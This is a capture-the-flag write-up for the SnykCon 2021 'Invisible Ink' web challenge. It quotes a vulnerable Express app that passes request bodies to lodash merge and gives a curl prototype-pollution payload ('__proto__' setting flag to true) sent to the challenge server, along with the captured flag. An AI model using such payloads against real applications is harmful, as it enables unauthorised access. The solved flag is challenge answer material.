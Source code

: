 # SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `Request` and `Response` and `POST` method
![Main function](./challenge.PNG) 
*  I usage curl command with `POST` method and seems nothing =))))
![Main function](./1.PNG) 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I usage `curl` command again and finally, i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![Main function](./3.PNG) 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
